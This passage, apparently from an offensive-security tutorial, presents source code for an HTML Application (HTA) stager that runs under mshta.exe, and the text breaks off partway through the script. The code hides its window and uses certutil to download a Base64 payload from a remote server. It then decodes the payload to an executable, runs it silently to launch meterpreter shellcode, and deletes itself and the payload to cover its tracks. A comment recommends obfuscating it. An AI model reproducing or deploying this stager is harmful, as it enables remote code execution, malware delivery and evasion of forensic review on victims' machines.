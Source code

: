 So why don't we create an HTA stager? 

In other words, a HTA which upon being run will download our shellcode loader program from a remote server and execute it which in turn will execute our final _meterpreter_ shellcode. Let's do that!

Keep in mind that HTML Applications are executed using `mshta.exe`.

Here is the HTA source:

```html
<!-- 
Filename: htastager.hta
Author: Upayan a.k.a. slaeryan
Purpose: This is a HTA stager that will download a Base64 payload from a specified URL, decode it back to the original extension and then execute it. Also, it cleans this file and the Base64 payload from disk afterwards.
Usage: Download and run from a browser or with mshta.exe 
-->


<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="SI"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">

<script>
// Obfuscate contents using: https://obfuscator.io/
// Function to download the payload from the remote server as a Base64 encoded file
function downloadpayload() {
	a = new ActiveXObject('Wscript.Shell');
	cmd = "certutil.exe -urlcache -split -f http://192.168.1.104:8000/payload.b64 payload.b64" // CHANGE ME
	a.Run(cmd, 0);
}
// Function to convert the Base64 encoded file into an executable
function decodepayload() {
	e = new ActiveXObject('Wscript.Shell');
	cmd = "certutil.exe -decode payload.b64 payload.exe"
	e.Run(cmd, 0);
}
// Function to execute the payload
function executepayload() {
	b = new ActiveXObject('Wscript.Shell');
	cmd = "payload.exe"
	b.Run(cmd, 0);
}
// Function to delete the HTA stager, Base64 payload and close the mshta.exe process
function cleanup() {
	c = new ActiveXObject("Scripting.FileSystemObject");
	filename = window.location.href;
	filename = decodeURI(filename);
	filename = filename.slice(8);
	d = c.GetFile(filename);
	d.Delete();
	f = c.GetFile("payload.b64");
	f.Delete();
	window.close();
}
downloadpayload();
// Wait for download to complete
```